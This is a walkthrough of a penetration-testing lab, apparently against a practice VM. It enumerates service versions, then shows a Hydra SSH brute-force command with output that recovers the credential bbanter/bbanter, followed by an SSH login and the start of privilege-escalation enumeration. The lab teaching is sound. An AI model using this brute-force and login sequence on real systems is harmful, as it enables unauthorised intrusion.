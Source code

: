 Port 21 FTP - vstfpd - Version ?
From the nmap scan it seems that the service is failing to run correctly so it will unlikely be exploitable
Port 22 SSH - OpenSSH - Version 4.3
 Only denial of service exploits found
Port 25 SMTP - Service? - Version ?
Port doesn't seem to interect with manual commands reference. You can confirm this later with banner grabbing and finger printing techniques
Port 80 HTTP - Apache - Version  2.0.55 - PHP version 5.1.2
No suitable exploits found
Port 110 POP3 - Openwall popa3d - Version ?
Unable to finger print server for exact version
Port 143 IMAP - UW Imapd 2004.357
Unable to finger print server for exact version
So we couldn't make much progress in exploiting the servers for remote access. We can however revert to the information we pulled off the website. Using a brute forcing program we can enumerate some of the active services on the machine and see if we can gain access. Hydra is a great program for this sort of task. It is able to brute force a wide variety of common protocols quickly and has a threading option to increase speed.

	root@kali ~$ hydra -L users.txt -P users.txt 192.168.1.100 ssh
	Hydra (http://www.thc.org/thc-hydra) starting at 2013-08-12 20:22:25
	[WARNING] Restorefile (./hydra.restore) from a previous session found, to prevent overwriting, you have 10 seconds to abort...
	[DATA] 16 tasks, 1 server, 1369 login tries (l:37/p:37), ~85 tries per task
	[DATA] attacking service ssh on port 22
	[STATUS] 110.00 tries/min, 110 tries in 00:01h, 1259 todo in 00:12h, 6 active
	[STATUS] 87.67 tries/min, 263 tries in 00:03h, 1106 todo in 00:13h, 6 active
	[STATUS] 84.86 tries/min, 594 tries in 00:07h, 775 todo in 00:10h, 6 active
	  [22][ssh] host: 192.168.1.100   login: bbanter   password: bbanter
	[STATUS] 86.67 tries/min, 1040 tries in 00:12h, 329 todo in 00:04h, 6 active

After a while you will see that the scan picked up an account using their name as a password. Before we rush ahead, let's quickly break down the hydra command:
 
- -L users.txt - User names to test
- -P users.txt - Passwords to test, in this case we are checking to see if users have used theirs (or anyone else's) user names as passwords
- 192.168.1.100 - The target IP address
- ssh - The target protocol 

Now we are armed with a user name and password that we can use to SSH into the target machine. When prompted for a password, enter bbanter .

	root@kali ~$ ssh bbanter@192.168.1.100

So we're  in the machine, what now? Well this is where more enumeration is required. I will explain some of the important commands to gather information about the target. The goal here is to profile the machine from the inside and prioritise where it might be good to start targeting. My favourite reference for Linux privilege escalation is by g0tmi1k. Please be aware that these commands may not work for every distribution of Linux. My suggestion here is to run the commands and see what you get. For some more work and self learning try running a few more from the guide I linked above. This process can be pain stacking but it is normal. Power through!
